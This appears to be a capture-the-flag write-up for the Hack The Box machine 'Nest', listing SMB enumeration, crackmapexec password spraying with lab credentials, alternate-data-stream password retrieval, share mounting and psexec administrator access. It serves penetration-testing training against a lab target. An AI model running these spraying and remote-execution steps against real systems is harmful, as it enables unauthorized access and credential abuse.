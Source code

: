 # Nest Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -p- -oA fullnest 10.10.10.178``

445/tcp  open  microsoft-ds

4386/tcp open  unknown


``telnet 10.10.10.178 4386``

HQK Reporting Service V1.2

![image](https://user-images.githubusercontent.com/123066149/219978012-ef2de3c1-ee16-4f12-a81d-e5d1c908e88e.png)

# ${{\color{purple}Initial Foothold}}\ $

``smbclient -U 'guest%' -L //10.10.10.178``  **:white_check_mark:**

![nest](https://user-images.githubusercontent.com/123066149/219977952-10bf82e2-17dd-4847-9662-7c0574cb3f03.PNG)

``smbmap -u 'guest%' -p '' -H 10.10.10.178``

![nest2](https://user-images.githubusercontent.com/123066149/219977955-11587394-53bb-4003-96db-4444483d1f9e.PNG)

``tree -f``

![nest6](https://user-images.githubusercontent.com/123066149/219978096-f7d14d29-972e-4762-bcc1-762285d76e56.PNG)

### After a good enumeration I found a password in the share :

![nest7](https://user-images.githubusercontent.com/123066149/219978134-ceda178d-80e0-486f-93b5-12f9d74e7f05.PNG)

### The password was in vb format i used this site to decode it :

https://dotnetfiddle.net/LdhDaa

### See the difference in rights on the share:

``crackmapexec smb 10.10.10.178 -u 'seazeaz' -p 'azeazeazee'`` 

``crackmapexec smb 10.10.10.178 --shares -u 'TempUser' -p 'welcome2019'``

``crackmapexec smb 10.10.10.178 --shares -u 'c.smith' -p 'xRxRxPANCAK3SxRxRx'``

![image](https://user-images.githubusercontent.com/123066149/219978197-a0d102f9-3279-4ff7-a4e8-f5e79fe3eae2.png)

### Replay the password for other users :

``crackmapexec smb 10.10.10.178 -u users.lst -p welcome2019 --continue-on-success``

![nest3](https://user-images.githubusercontent.com/123066149/219978170-7567d458-4be6-4c03-9a94-38b500e6ef36.PNG)

### In a file named "Debug Mode Password.txté" I had to do a special command to find the password :

``allinfo "Debug Mode Password.txt``

``get "Debug Mode Password.txt":Password``

``cat Debug Mode Password.txt``

![nest4](https://user-images.githubusercontent.com/123066149/219978395-27c5720e-def1-46ee-8006-cfeb6154147d.PNG)

# ${{\color{purple}Exploitation}}\ $ 

### I have created directories and I mounted the share in the files to make a better enumeration :

``mkdir C.Smith``

``mkdir L.Frost``

``mkdir R.Thompson``

``mkdir TempUser``

``mount -t cifs -o 'username=L.Frost,password=welcom2019' //10.10.10.178/Users /mnt/L.Frost``

``mount -t cifs //10.10.10.178/Data /mnt/tmpuser -o "username=TempUser,password=welcome2019"``

``find .``  

### OR to exploit the structure

``tree -f``

# ${{\color{purple}Privilege Escalation}}\ $

``telnet 10.10.10.178 4386``

HQK Reporting Service V1.2

![nest9](https://user-images.githubusercontent.com/123066149/219978750-0df318a5-091d-4117-b511-1929e1a5637e.PNG)

![nest10](https://user-images.githubusercontent.com/123066149/219978754-492ceb49-2465-4b0b-a73d-5b066e660b46.PNG)

![nest11](https://user-images.githubusercontent.com/123066149/219978757-1e3f2a5e-e0a6-4f1f-9932-31d16f3defb1.PNG)

### The password was in vb format i used this site to decode it :

https://dotnetfiddle.net/LdhDaa

``/usr/bin/impacket-psexec administrator@10.10.10.178``

![nest5](https://user-images.githubusercontent.com/123066149/219978802-4d6431df-f61c-4545-b87e-256f69e4c39b.PNG)


# ${{\color{purple}Points of Improvement}}\ $

* Use crackmap for shares
* Mount the shares on my computer for a perfect enumeration 
* Don't forget that it is possible to mount a share with the password of a user :

``mount -t cifs //10.10.10.178/Data /mnt/tmpuser -o "username=TempUser,password=welcome2019"``

* Tell to crackmapexec do not stop if there is a success (valide user and password)

``crackmapexec smb 10.10.10.178 -u users.lst -p welcome2019 --continue-on-success``

* Test the open ports with telent nc and netcat because they don't send the same data 
* Think about the ``allinfo`` method of smb commands for interesting files 
* Use the tree -f command for enumeration
* It's possible to retrieve all files from a share with the following smb commands

``allinfo "Debug Mode Password.txt`` 

``echo -n yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4= |base64 -d`` ### Base64 decode

``tree -f``

``smb: \> mask ""``

``smb: \> recurse``

``smb: \> prompt``

``smb: \> mget *``

